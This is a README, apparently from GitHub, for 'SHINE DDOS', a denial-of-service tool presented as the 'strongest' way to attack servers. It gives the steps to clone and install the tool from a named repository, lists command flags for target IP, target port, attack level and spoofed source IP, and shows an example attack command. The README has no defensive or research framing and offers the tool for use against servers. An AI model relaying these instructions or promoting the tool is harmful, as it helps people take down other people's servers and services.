 #  SHINE DDOS

Stongest Server 4ttacks from TEAM SYNC LEADER 



## installing

-  <code> pkg install python </code>
-  <code> git clone https://github.com/T3AmSyNc/kashira.git</code>
-  <code> cd  kashira </code> 
-  <code> pip install -r installing.txt </code>
-  <code> python shineddos.py -h  </code>




### Command information:
    Use:
    
    $ <code>python  shineddos.py [-i] [-p] [-l]    </code>     

│         -h : HELP                             
│         -i : Ip Server                          
│         -p : T4rget Port                        
│         -l : Att4ck level                
│         -f : For pseudo-IP optional                           
│         -d : Hide and reduce pop-up messages                         
 Example:
 
 <code> python  shineddos.py -i 12.345.678.90 -p 80 -l  3 </code>


